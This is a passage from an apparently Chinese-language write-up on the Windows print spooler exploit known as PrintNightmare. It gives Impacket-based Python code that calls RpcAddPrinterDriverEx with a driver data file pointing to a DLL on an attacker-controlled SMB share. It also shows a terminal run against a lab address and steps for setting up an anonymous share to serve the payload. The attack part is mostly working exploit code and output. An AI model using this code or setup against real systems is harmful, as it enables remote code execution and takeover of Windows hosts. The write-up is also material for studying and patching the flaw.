 ```
#def lookup(self, rpctransport, host):
        level = 2
        Driver_Info_Union = rprn.Driver_Info_UNION()
        Driver_Info_Union['tag'] = level
        DRIVER_INFO = Driver_Info_Union["Level"+str(level)]
 
        DRIVER_INFO['cVersion'] = 3
        DRIVER_INFO['pName'] = "Test printer\x00"
        DRIVER_INFO['pEnvironment'] = "Windows x64\x00"
        DRIVER_INFO['pDriverPath'] = pDriverPath
        DRIVER_INFO['pDataFile'] = "\\\\{}\\smb\\asd.dll\x00".format(self.__attackerhost)
        DRIVER_INFO['pConfigFile'] = "C:\\Windows\\System32\\winhttp.dll\x00"
 
        DriverContainer = rprn.DRIVER_CONTAINER()
        DriverContainer['Level'] = level
        DriverContainer['DriverInfo'] = Driver_Info_Union
 
        #resp = rprn.hRpcEnumPrinters(dce, rprn.PRINTER_ENUM_NAME)
        print("[*] Attempting to call RpcAddPrinterDriverEx")
        pName = NULL
        flags = rprn.APD_COPY_ALL_FILES | 0x10 | 0x8000
        resp = rprn.hRpcAddPrinterDriverEx(dce, pName, DriverContainer, flags)

```

在测试之前还需要在共享的机器上配置允许匿名共享，不然会报错，如下：

```
┌──(strawberry㉿kalilili)-[~]
└─$ python testprinter.py strawberry@192.168.140.222 192.168.140.144
[*] Impacket v0.9.24.dev1+20210618.54810.11f43043 - Copyright 2021 SecureAuth Corporation
 
Password:
[*] Attempting to trigger authentication via rprn RPC at 192.168.140.222
[*] Bind OK
[*] Attempting to call RpcAddPrinterDriverEx ......
[-] Lookup Error: RPRN SessionError: code: 0x2 - ERROR_FILE_NOT_FOUND - The system cannot find the file specified.

```

在 Windows 机器可以做如下配置：

```
新建文件夹 Share
 
    右键属性 - 共享 - 网络和共享中心 - 设置 关闭密码保护共享
    右键属性 - 共享 - 高级共享 - 选中 共享此文件夹
    右键属性 - 共享 - 高级共享 - 权限 - 授予 Everyone 用户完全控制权限
    右键属性 - 安全 - 添加 Everyone 用户并授予完全控制权限
 
gpedit.msc
 
    计算机配置 - Windows 设置 - 安全设置 - 本地策略
 
        用户权限分配
 
            拒绝从网络访问这台计算机 (从列表中删除 Guest)
 
        安全选项
 
            网络访问: 本地账户的共享和安全模型 (选择 仅来宾)
            网络访问: 将 Everyone 权限应用于匿名用户 (设置 已启用)
            网络访问: 可匿名访问的共享 (新增 Share)

```